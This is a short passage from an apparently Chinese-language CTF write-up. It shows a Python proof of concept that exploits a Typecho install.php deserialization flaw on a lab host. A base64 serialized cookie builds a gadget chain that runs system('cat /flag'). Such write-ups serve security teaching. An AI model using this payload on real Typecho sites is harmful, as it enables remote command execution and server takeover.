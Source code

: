这时可以直接上传一个文件，并且设置PHP_SESSION_UPLOAD_PROGRESS，来让其自动写入PHPSESS

payload

```python
import requests
url='http://b04d0c0d-75b0-4e0e-a34c-da5bf0a8b17d.node3.buuoj.cn//install.php?finish=1'

files={'file':1}

headers={
#运行poc替换__typecho_config
'cookie':'PHPSESSID=test;__typecho_config=YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo3OiJSU1MgMi4wIjtzOjIwOiIAVHlwZWNob19GZWVkAF9pdGVtcyI7YToxOntpOjA7YToxOntzOjY6ImF1dGhvciI7TzoxNToiVHlwZWNob19SZXF1ZXN0IjoyOntzOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9wYXJhbXMiO2E6MTp7czoxMDoic2NyZWVuTmFtZSI7czo5OiJjYXQgL2ZsYWciO31zOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9maWx0ZXIiO2E6MTp7aTowO3M6Njoic3lzdGVtIjt9fX19fXM6NjoicHJlZml4IjtzOjQ6InRlc3QiO30=',
'Referer':'http://b04d0c0d-75b0-4e0e-a34c-da5bf0a8b17d.node3.buuoj.cn//install.php'
 }
re=requests.post(url,files=files,headers=headers,data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"})
print(re.text)
```

运行得到flag



